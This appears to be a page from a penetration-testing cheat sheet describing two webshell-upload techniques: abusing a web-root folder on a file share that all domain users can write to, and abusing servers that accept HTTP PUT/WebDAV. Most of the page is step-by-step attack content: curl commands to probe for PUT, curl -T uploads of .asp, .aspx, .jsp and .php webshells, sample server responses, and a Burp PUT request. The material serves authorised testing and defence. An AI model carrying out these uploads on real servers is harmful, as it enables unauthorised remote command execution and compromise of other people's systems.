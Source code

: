 #### Technique 12. Webshell upload by exploiting an insecure writable file share of a Web server root directory
##### <i>Common Web server root directory = 'C:\inetpub\wwwroot\' or '/var/www/'. Potential insecure writable file share = FTP file share or CIFS/SMB file share or SAMBA file share or NFS file share ... </i> 
```
Example
➤ Step 1. Identify a file share of a Web server that is insecurely granting read & write permissions to all "Domain Users" over the folder 'C:\inetpub\wwwroot\'

➤ Step 2. Upload a webshell (.ASP or ASPX) in the folder 'C:\inetpub\wwwroot\' or 'C:\inetpub\wwwroot\application-name\'

➤ Step 3. Browse your webshell and execute OS commands 
           Examples:
           - "http://x.x.x.x/Webshell.asp" 
           - "http://x.x.x.x/application-name/Webshell.aspx" 
```

#### Technique 13. Webshell upload by abusing the insecure HTTP PUT method
<i/> Note: The HTTP PUT method is also known as one of the Webdav methods </i>
```
➤ Step 1. Find an insecure Web server which accepts PUT HTTP method
	   - Examples with CURL
             root@kali:~# curl -v -X OPTIONS http://x.x.x.x/test/
             * Trying x.x.x.x...
             * TCP_NODELAY set
             * Connected to x.x.x.x (x.x.x.x) port 80 (#0)
             > OPTIONS /test/ HTTP/1.1
             > Host: x.x.x.x
             > User-Agent: curl/7.60.0
             > Accept: */*

	     HTTP response:
	     --------------
             < HTTP/1.1 200 OK
             < DAV: 1,2
             < MS-Author-Via: DAV
             < Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
             < Allow: OPTIONS, GET, HEAD, POST
             < Content-Length: 0
             < Date: Wed, 15 Aug 2018 21:35:07 GMT
             < Server: lighttpd/1.4.28
             < 
             * Connection #0 to host x.x.x.x left intact
		 
➤ Step 2. Try to upload a simple text file with curl 
           - curl -T test.txt http://www.sitename.com/foldername

➤ Step 3. If the text file was uploaded successfully, then upload a Webshell file
	   - Examples with CURL
             $ curl -T webshell.jsp http://www.sitename.com/<path>
             $ curl -T webshell.asp http://www.sitename.com/<path>
             $ curl -T webshell.aspx http://www.sitename.com/<path>
             $ curl -T webshell.php http://www.sitename.com/<path>
	    
	   - Example of HTTP PUT request sent with Burp proxy (repeater)	  
             PUT /test/webshell.php HTTP/1.1
             Host: x.x.x.x
             User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
             Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
```